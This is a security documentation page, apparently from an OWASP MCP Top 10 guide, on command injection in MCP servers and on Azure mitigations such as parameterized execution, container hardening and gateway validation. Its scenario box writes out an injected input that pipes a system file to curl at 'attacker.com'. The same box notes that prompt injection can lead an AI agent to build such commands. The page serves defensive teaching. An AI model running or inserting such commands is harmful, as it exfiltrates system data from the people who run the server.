

# MCP05: Command Injection & Execution

### Azure Implementation: FULL



!!! tip "Real-World Scenario: The Innocent Search Request"

    An MCP server provides a tool for searching log files. A user asks: “Search the logs for errors from yesterday.”

    The MCP sever constructs a command like: ```grep ‘errors’ /var/log/app.log```. But what if the user (or attacker using prompt injection) asks:

    “Search logs for errors; ```cat /etc/password \| curl attacker.com```”?

    If the server concatenates this input directly into a shell command, the attacker just exfiltrated your system’s user list.

    **Think of it like**: A vending machine where you type what you want. Normally you type “A1” for chips. But if the machine accepts any input and passes it directly to its internal system, typing “A1, open cash drawer” might do exactly what it says.

## Understanding the Risk

Command injection happens when user input is incorporated into system commands without proper sanitization. MCP servers that execute commands, run scripts, or interact with the operating system are particularly vulnerable. Because AI agents construct these commands based on natural language requests, attackers can craft prompts that result in dangerous command strings.

## The Azure Solution

Command injection cannot be reliably prevented by inspection alone. Azure mitigates this risk through secure execution boundaries, isolation, and layered detection, with input inspection used only as a supporting signal.


**Secure execution in MCP servers (primary control)**  
MCP servers must never construct shell commands by concatenating user input. Always use parameterized execution (for example, ```subprocess.run(\[...\]```) without ```shell=True```), validate inputs against strict allowlists, and avoid exposing general-purpose command execution altogether.

**Container hardening and isolation**  
Run MCP servers in minimal, distroless containers that do not include shells or system utilities. Apply seccomp and AppArmor profiles to restrict process spawning and system calls, ensuring that even successful injection attempts cannot execute arbitrary commands.

**Gateway-level validation and policy enforcement**  
Azure API Management acts as an MCP gateway to enforce request schemas, authentication, and operation-level authorization. By validating that requests match expected shapes and intents, APIM reduces the likelihood of malformed or unexpected inputs reaching execution paths.

**Signal-based input inspection**  
Azure AI Content Safety can be used as an additional signal to detect suspicious or malicious request patterns. Requests flagged as high risk should be rejected or routed for additional validation, but content inspection should not be relied on as the primary protection against command injection.

**Key Takeaways**:

- Route all requests through Azure AI Content Safety before processing
- Reject requests with detected injection patterns and never forward them
- Use parametrized commands in code
- Deploy distroless containers without shell utilities
- Apply AppArmor profiles restricting exec/spawn capabilities

---

## Next Steps

- **Related risks**: [MCP06: Prompt Injection](mcp06-prompt-injection.md) | [MCP03: Tool Poisoning](mcp03-tool-poisoning.md)
- **Monitoring**: [MCP08: Lack of Audit & Telemetry](mcp08-telemetry.md) to detect injection attempts
- **Strategic guidance**: [Enterprise Patterns & Lessons Learned](../adoption/enterprise-patterns.md) for security testing practices
- **Back to**: [OWASP MCP Top 10](../index.md#owasp-mcp-top-10)
